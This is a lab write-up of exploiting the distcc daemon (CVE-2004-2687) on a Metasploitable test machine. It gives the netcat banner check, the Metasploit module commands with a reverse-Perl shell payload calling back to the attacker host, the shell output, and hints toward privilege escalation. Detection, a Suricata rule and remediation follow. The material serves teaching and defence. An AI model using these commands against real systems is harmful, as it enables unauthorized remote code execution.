


# distcc RCE (CVE-2004-2687)

Distcc spreads a compile job across several machines on a network to speed it up.
The trouble starts when the `distccd` daemon is exposed with no access control at
all (no `--allow` list, no firewall rule), because by design it accepts requests
to run compiler commands from any client, with no authentication. And compiling
is really just running commands, so it's easy to turn that into arbitrary code
execution.

The other three (vsftpd and UnrealIRCd with poisoned source, Samba with a command
injection bug) were all flaws in the service itself. This one isn't. distcc does
exactly what it's designed to do. The whole problem is the configuration — the
service left open with no restrictions.

## Target
- IP: 192.168.56.102
- Port: 3632 (distcc)
- Service: distccd v1

## CVE
CVE-2004-2687

## Attack type
Remote Code Execution through insecure configuration (missing access control)

## MITRE ATT&CK
- T1190 – Exploit Public-Facing Application
- T1059 – Command and Scripting Interpreter

## Mechanism

distccd takes compile requests without checking who sent them. Instead of a real
compiler command, a client can hand it an arbitrary shell command, and the
service runs it with whatever privileges it has.

---

## Step 0: Confirm the service

```bash
nc -nv 192.168.56.102 3632
```



The connection opens with `(distcc) open`, confirming the service is listening on
3632.

---

## Exploitation: Metasploit

Sending the distcc protocol by hand is a pain because you need the exact binary
message format, so I used the Metasploit module for this one.

### Commands

```bash
msfconsole
search distcc
use exploit/unix/misc/distcc_exec
set RHOSTS 192.168.56.102
set LHOST 192.168.56.101
run
```

The default payload (`cmd/unix/reverse_bash`) didn't work. It leans on the
`/dev/tcp` bash trick, which this system didn't cooperate with. Switching to
`cmd/unix/reverse_perl` opened the session:

```bash
set PAYLOAD cmd/unix/reverse_perl
run
```

### Result



[*] Command shell session 1 opened
whoami → daemon
id → uid=1(daemon) gid=1(daemon) groups=1(daemon)
hostname → metasploitable


## A note on privileges

Unlike the first three, I didn't land as root here. distccd runs as the `daemon`
user, which makes sense — a compiler service has no reason to run as root. The RCE
works, but the compromise is partial: I get code execution, not full control of
the box.

The natural next move would be privilege escalation from `daemon` to `root` —
checking `sudo -l`, hunting for SUID binaries (`find / -perm -4000`), or a known
kernel exploit for this system's version. I left that out of this writeup on
purpose, but it's the obvious continuation.

---

## Detection (blue-team view)

- distccd sitting on the network with no access control is a red flag on its own. Ideally you catch this in an asset/config review, before anyone exploits it.
- An unexpected outbound connection from the distccd process to an external IP and port (the reverse shell).
- A shell process (`perl`, `sh`) spawning out of the distccd daemon. Anomaly in the process tree.
- distcc traffic from clients that aren't part of the known build infrastructure.

## IDS signature (Suricata example)

alert tcp any any -> any 3632 (msg:"distcc RCE attempt"; sid:9000004;)


## Remediation

- Never put distccd on a public or untrusted network.
- Use an `--allow` list so only known build servers can connect.
- A firewall rule that limits port 3632 to the internal build infrastructure.
- Consider running distccd in an isolated/sandboxed environment.

## Screenshots
- `04_distccd_banner.png`
- `04_distccd_shell.png`
